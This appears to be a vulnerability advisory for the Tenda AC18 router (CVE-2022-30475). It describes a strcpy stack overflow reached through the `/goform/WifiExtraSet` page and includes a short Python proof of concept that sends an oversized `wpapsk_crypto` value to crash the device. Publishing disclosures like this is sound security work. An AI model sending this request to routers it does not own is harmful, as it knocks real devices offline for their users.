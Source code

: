 # Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/WifiExtraSet` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `fromSetWirelessRepeat`.

In function `fromSetWirelessRepeat` it reads user provided parameter `wpapsk_crypto` into `victim_buf`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `vuln_buf`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/WifiExtraSet`, the attacker can easily perform a **Deny of Service Attack**.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/WifiExtraSet?"
url += "wl_mode=not_ap&security=wpapsk&wpapsk_key=kkkkkkkk&wpapsk_crypto=" + "s" * 0x600

response = requests.get(url)
```

## Timeline

* 2022-05-07: Report to CVE & CNVD;
* 2022-05-26: CVE ID assigned (CVE-2022-30475)
* 2022-05-30: CNVD ID assigned (CNVD-2022-41850)

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62), [@Minghao Lin](https://github.com/MinghaoLin2000) and [@cylin](https://github.com/lcyfrank) from IIE, CAS.
